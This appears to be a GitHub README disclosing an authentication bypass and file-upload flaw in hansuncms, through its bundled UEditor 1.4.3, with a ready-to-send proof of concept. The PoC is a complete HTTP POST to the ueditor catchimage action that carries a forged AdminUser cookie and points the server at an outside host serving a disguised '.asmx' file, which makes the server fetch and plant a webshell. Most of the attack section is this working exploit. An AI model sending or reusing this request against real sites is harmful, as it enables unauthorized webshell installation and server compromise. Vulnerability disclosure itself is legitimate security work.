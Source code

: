 # hansuncmswebshell 

hansuncms  Authentication Bypass and File Upload

hansuncms [](https://www.68team.com/)
more like  CNVD-2017-20077  
hansuncms have net 1.4.3 ueditor and Authentication Bypass
<br>some code<br>
![code](https://github.com/MorStardust/hansuncmswebshell/blob/main/code.png)
 <br>if (context.Request.Cookies["AdminUser"] != null || context.Request.Cookies["AdminUser"]["SysUser"] != "")<br>

cookies have AdminUser not null can use ueditor upload webshell

poc

<br>POST /ueditor/net/controller.ashx?action=catchimage HTTP/1.1<br>
<br>Host: xxxxxxxxxx<br>
<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0<br>
<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8<br>
<br>Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2<br>
<br>Accept-Encoding: gzip, deflate<br>
<br>Content-Type: application/x-www-form-urlencoded<br>
<br>Content-Length: 59<br>
<br>Origin: xxxxxx<br>
<br>Connection: close<br>
<br>Referer: http://xxxxxxxx/cms/Login.aspx<br>
<br>Cookie:AdminUser=AdminId=1&AdminUser=1&AdminPwd=1&AdminName=1&Language=30;ASP.NET_SessionId=hlz4zjbvx0dze5haljxdxuuk<br>
<br>Upgrade-Insecure-Requests: 1<br>
<br> <br>
<br>source%5B%5D=http%3A%2F%2Fx.x.x.x%2F1.asmx.jpg%3F.asmx<br>
<br>![poc](https://github.com/MorStardust/hansuncmswebshell/blob/main/poc.png)<br>
<br>![poc](https://github.com/MorStardust/hansuncmswebshell/blob/main/result.png)<br>

